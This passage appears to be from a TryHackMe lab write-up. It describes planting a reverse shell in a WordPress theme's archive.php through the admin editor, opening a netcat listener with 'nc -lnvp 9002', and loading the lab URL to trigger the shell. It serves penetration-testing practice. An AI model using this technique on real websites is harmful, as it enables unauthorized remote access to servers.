1) Go to the Editor section then go to the Archives section
2) Edit by inserting the reverse shell
3) For the reverse shell ip address type ifconfig (take the one that refers to the Tryhackme VPN connection) in the terminal
4)  OK, now I open the listening port with netcat:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9002
listening on [any] 9002 ...
```
5) In the url reverse traveling to this directory: 
http://10.10.170.58/wp-content/themes/twentyfifteen/archive.php